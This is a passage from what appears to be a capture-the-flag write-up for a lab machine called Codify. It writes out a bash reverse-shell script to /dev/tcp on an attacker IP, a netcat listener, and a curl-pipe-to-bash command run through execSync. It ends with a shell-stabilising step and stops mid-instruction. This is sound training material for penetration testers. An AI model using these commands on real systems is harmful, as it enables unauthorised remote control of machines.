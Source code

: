 This command shows that there's a user called `joshua` on this system. We can now try to escalate into his account from our `svc` account. However, before we do that, let's get a proper shell into the Codify box so that we don't have to deal with putting commands in the JS editor manually.

## Spawn Reverse Shell into Codify

We can spawn a TCP reverse shell into the box by downloading the following shell script into Codify and executing it. Open a text editor and paste the following snippet and name the file as `shell.sh`

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.151//1337 0>&1'
```

Change the IP address to your own tun0 interface IP address. You can use the below command to retrieve your attack box IP.

```bash
ip a | grep tun0
```

Now, fire up an HTTP server on your attack box so that you can deliver this shell script into the target box(Codify). You can use the following Python one-liner.

```bash
python3 -m http.server 9000
```

You can now download the shell script from the target machine using curl. However, before we do that, let's create a `netcat` listener on another terminal so that we can interact with the shell.

```bash
nc -lvnp 1337
```

Finally, deliver the shell script by typing the following command in the Codify Editor box(inside `execSync('whoami');` )

```bash
curl http://10.10.14.151:9000/shell.sh|bash
```

It should spawn a TCP reverse shell in your `netcat` terminal. Since it's not very stable, let's run the following few commands to get a proper shell with nice color highlighting.

From inside the `netcat` terminal running the reverse shell -

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Hit enter and when it runs, press `Ctrl+Z`

```bash
^Z
```

Now run -
